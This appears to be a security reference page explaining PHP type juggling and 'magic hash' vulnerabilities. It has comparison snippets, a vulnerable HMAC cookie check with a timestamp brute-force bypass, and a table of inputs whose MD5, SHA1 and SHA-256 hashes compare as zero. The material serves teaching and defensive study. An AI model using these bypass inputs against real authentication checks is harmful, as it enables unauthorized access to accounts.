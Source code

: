 # PHP Juggling type and magic hashes

PHP provides two ways to compare two variables:

- Loose comparison using `== or !=` : both variables have "the same value".
- Strict comparison using `=== or !==` : both variables have "the same type and the same value".

PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

## Type Juggling

### True statements

```php
var_dump('0010e2'   == '1e3');           # true
var_dump('0xABCdef' == ' 0xABCdef');     # true PHP 5.0 / false PHP 7.0
var_dump('0xABCdef' == '     0xABCdef'); # true PHP 5.0 / false PHP 7.0
var_dump('0x01'     == 1)                # true PHP 5.0 / false PHP 7.0
var_dump('0x1234Ab' == '1193131');
```

```php
'123'  == 123
'123a' == 123
'abc'  == 0
```

```php
'' == 0 == false == NULL
'' == 0       # true
0  == false   # true
false == NULL # true
NULL == ''    # true
```

### NULL statements

```php
var_dump(sha1([])); # NULL
var_dump(md5([]));  # NULL
```

### Example vulnerable code

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['$expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
	... 
```

The $cookie variable is provided by the user. The $key variable is a secret and unknown to the user.

If we can make the calculated hash string Zero-like, and provide "0" in the $cookie['hmac'], the check will pass.

```
"0e768261251903820937390661668547" == "0"
```

We have control over 3 elements in the cookie:
- $username - username you are targetting, probably "admin"
- $hmac - the provided hash, "0"
- $expiration - a UNIX timestamp, must be in the future

Increase the expiration timestamp enough times and we will eventually get a Zero-like calculated HMAC.

```
hash_hmac(admin|1424869663) -> "e716865d1953e310498068ee39922f49"
hash_hmac(admin|1424869664) -> "8c9a492d316efb5e358ceefe3829bde4"
hash_hmac(admin|1424869665) -> "9f7cdbe744fc2dae1202431c7c66334b"
hash_hmac(admin|1424869666) -> "105c0abe89825a14c471d4f0c1cc20ab"
...
hash_hmac(admin|1835970773) -> "0e174892301580325162390102935332" // "0e174892301580325162390102935332" == "0"
```

## Magic Hashes - Exploit

If the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhieHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
